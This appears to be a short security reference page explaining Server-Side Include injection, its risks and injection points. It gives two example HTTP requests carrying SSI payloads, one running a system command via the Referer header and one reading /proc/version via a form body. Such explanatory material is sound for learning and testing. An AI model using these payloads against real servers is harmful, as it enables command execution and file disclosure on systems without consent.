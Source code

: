 Server-Side Include (SSI) injection vulnerabilities occur when an application incorporates user-controllable data into a response that is subsequently parsed for Server-Side Include directives. If the provided user input is not strictly validated, malicious actors can manipulate or insert directives to execute malicious code.

Exploiting SSI injection vulnerabilities often enables the injection of arbitrary content, such as JavaScript, into the application's response, presenting similar risks as cross-site scripting (XSS). Depending on the server's configuration, the vulnerability may also allow to access protected files or execute arbitrary system commands on the server.

SSI injection can have multiple injection points such as post forms, http headers, cookies..


- Code Execution:

=== "http"
  ```http
  GET / HTTP/1.1
  Host: localhost
  Referer: <!--#exec cmd="/bin/ls"-->
  ```

- File inclusion:

=== "http"
  ```http
  POST /contact HTTP/1.1
  Host: localhost
  
  body=<!--#include virtual="/proc/version"-->
  ```
